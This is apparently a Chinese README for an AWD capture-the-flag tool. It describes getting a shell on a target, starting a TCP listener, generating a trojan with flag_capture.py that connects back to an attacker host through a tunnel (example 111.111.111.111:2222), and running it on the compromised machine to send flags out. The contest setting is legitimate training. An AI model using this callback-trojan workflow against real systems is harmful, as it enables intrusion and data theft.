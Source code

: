 # 欢迎使用鑫启网安AWD自动获取flag工具
### 环境准备
首先，确保你的系统为linux的某种发行版
以ubuntu为例
通过以下命令安装python3
```sh
sudo apt-get install python3
```
通过以下命令安装gcc
```sh
sudo apt install build-essential
```
### 用法
首先，确保拿到对方的shell权限
在本地攻击机环境下运行以下命令，以开始tcp监听
```sh
python3 flag_handler.py
```
而后，在本地攻击机（linux）的环境下，使用flag_capture.py生成木马，在本地开启内网穿透（内网穿透的开启方法不做赘述）
假设在内网穿透的端口，将本地的127.0.0.1:12346穿透到111.111.111.111:2222，那么你应该以以下命令生成木马
```sh
python3 flag_capture.py 111.111.111.111 2222
```
接下来，在根目录下，你会得到一个名为时间戳的文件
将此文件上传至已取得shell权限的靶机，而后运行，即可在flag_handler.py的shell中自动获取flag
注：当前版本还不能全自动提交flag，等我下次打AWD的时候去抓个包看看怎么改request